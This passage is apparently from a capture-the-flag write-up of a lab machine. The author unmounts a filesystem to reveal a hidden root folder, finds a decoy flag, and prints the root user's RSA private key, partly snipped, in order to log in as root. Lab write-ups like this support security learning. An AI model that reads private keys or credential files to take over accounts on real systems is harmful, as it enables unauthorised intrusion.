 ```text
varg@cchq:~$ ls /opt/CooctFS/
bin  boot  etc  games  lib  run  tmp  var

varg@cchq:~$ sudo /bin/umount /opt/CooctFS

varg@cchq:~$ ls /opt/CooctFS/
root
```

Clever. The CooctFS mount was hiding the root folder that was already inside. Let's have a look:

```text
varg@cchq:~$ ls -la /opt/CooctFS/root
drwxr-xr-x 5 root root 4096 Feb 20 09:16 .
drwxr-xr-x 3 root root 4096 Feb 20 09:09 ..
lrwxrwxrwx 1 root root    9 Feb 20 09:15 .bash_history -> /dev/null
-rw-r--r-- 1 root root 3106 Feb 20 09:09 .bashrc
drwx------ 3 root root 4096 Feb 20 09:09 .cache
drwxr-xr-x 3 root root 4096 Feb 20 09:09 .local
-rw-r--r-- 1 root root   43 Feb 20 09:16 root.txt
drwxr-xr-x 2 root root 4096 Feb 20 09:41 .ssh
```

We found the root flag:

```text
varg@cchq:~$ cat /opt/CooctFS/root/root.txt
hmmm...
No flag here. You aren't root yet.
```

Ah, tricked us! However there's a .ssh folder, so we can probably just copy the id_rsa key to Kali then use it to log in as root:

```text
varg@cchq:~$ cat /opt/CooctFS/root/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAx2+vTyYoQxGMHh/CddrGqllxbhNo3P4rPNqQiWkTPFnxxNv6
5vqc2vl5vd3ZPcOHp3w1pIF3MH6kgY3JicvfHVc3phWukXuw2UunYtBVNSaj6hKn
DwIWH3xCnWBqG6BR4dI3woQwOWQ6e5wcKlYz/mqmQIUKqvY5H3fA8HVghu7ARSre
Jz2sMB4GzqER8/G9ESan7UOtrarhvHtC+l5g2QIDAQABAoIBAC9qKRa7LqVLXbGn
<SNIP>
9ejKB+8SSAFrerw4YeNaF430jouhcNKdvdQHAHmxvKNI6dk8wwbm6ur14BgJpb9n
0NFYJEzcf2mhdsBbr5aAL3kD9Dwfq9Le2StO092i0WsjrAPO3Lwj9isFspiFltAF
gEaHHwKBgQDQQ3tLEWwGbULkIXiKopgN/6ySp23TVFHKK8D8ZXzRgxiroBkG129t
FXhWaDVCDTHczV1Ap3jKn1UKFHdhsayK34EAvRiTc+onpkrOMEkK6ky9nSGWSWbr
knJ1V6wrLgd2qPq2r5g0a/Qk2fL0toxFbnsQRsueVfPwCQWTjSo/Wg==
-----END RSA PRIVATE KEY-----
```

Paste the above in to a new file on Kali. Change permissions:

```text
┌──(root💀kali)-[~/thm/cooctus]
└─# chmod 600 id_rsa
```
